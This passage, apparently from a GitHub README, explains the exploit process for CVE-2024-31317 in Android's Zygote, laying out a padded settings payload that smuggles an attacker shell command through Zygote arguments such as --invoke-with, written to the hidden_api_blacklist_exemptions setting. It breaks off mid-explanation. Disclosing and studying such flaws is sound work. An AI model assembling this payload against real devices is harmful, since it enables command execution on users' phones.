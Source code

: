 The exploit process ([see here for a detailed explanation](https://github.com/agg23/cve-2024-31317/)):

1. Attacker constructs a payload. On Android 12+ this payload needs to exploit specific timing and logic details to force the Zygote process launch system to execute our command. For simplicity sake, our payload looks something like:

```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
BEGIN SETTINGS PAYLOAD
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

\n                                      # Newlines (~3000x for padding)
\n
\n
...
\n
AAAAA...A                               # Any non-newline char; pads total to ~8196 bytes (includes Android-added bytes)

────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
START OF ATTACKER-INJECTED COMMAND
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

1234\n                                  # Number of arguments in command
--various-zygote-internal-arguments\n   # Determines permissions for new process
--invoke-with\n                         # Argument wrapper for custom command
[ATTACKER SH COMMAND]\n                 # Malicious shell command supplied by attacker
android.app.ActivityThread\n            # Expected entrypoint class to keep structure valid

────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
END OF ATTACKER-INJECTED COMMAND
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

,,,,,,,,...                             # Trailing commas tuned to timing constraints
                                        # (count of total commas + newlines) <= 12,200 in Android 12L

────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
END SETTINGS PAYLOAD
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

2. Attacker writes the payload to the vulnerable global setting `hidden_api_blacklist_exemptions`. This can be done over ADB as we see below, or in any app with the `WRITE_SECURE_SETTINGS` permission (which an app from the Play Store may possess, making this a very dangerous CVE).
